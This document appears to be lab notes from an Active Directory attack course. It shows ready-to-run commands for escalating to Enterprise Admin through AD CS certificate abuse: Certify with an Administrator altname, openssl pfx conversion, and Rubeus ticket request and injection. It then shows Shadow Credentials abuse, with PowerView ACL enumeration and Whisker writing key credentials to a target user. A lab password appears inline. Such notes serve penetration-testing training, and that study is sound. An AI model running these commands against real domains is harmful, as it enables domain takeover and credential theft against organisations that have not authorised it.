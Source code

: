 
## Escalation to EA

Request a certificate for EA!
```powershell
C:\AD\Tools\Certify.exe request /ca:Techcorp-DC.techcorp.local\TECHCORP-DC-CA /template:ForAdminsofPrivilegedAccessWorkstations /altname:Administrator
```

Convert from cert.pem to pfx:
```powershell
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\EA.pfx
```

Request EA TGT and inject it:
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:techcorp.local\Administrator /dc:techcorp-dc.techcorp.local /certificate:C:\AD\Tools\EA.pfx /password:SecretPass@123 /nowrap /ptt
```



# Shadow Credentials

Users and Computers have **msDS-KeyCredentialLink** attribute that contains the raw public keys of certificate that can be used as an alternate credential.

- This attribute is used when we configure Windows Hello for Business (WHfB)

> By default, Key Admins and Enterprise Key Admins have rights to modify the **msDS-KeyCredentialLink attribute**.

- User to User (U2U) Service Ticket can be requested to decrypt the encrypted **NTLM_SUPPLEMENTAL_CREDENTIAL** entity from Privilege Attribute Certificate (PAC) and extract NTLM hash.

Pre-requisites to abuse Shadow Credentials:
```
- AD CS (Key Trust if AD CS is not present)
- Support for PKINIT and at least one DC with Windows Server 2016 or above.
- Permissions (GenericWrite/GenericAll) to modify the msDS-KeyCredentialLink attribute of the target object.
```

## Abusing User Object

Enumerate the permissions:
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}
```

Add the Shadow Credential:
```powershell
Whisker.exe add /target:supportXuser
```

Using PowerView, see if the Shadow Credential is added.
```powershell
Get-DomainUser -Identity supportXuser
```
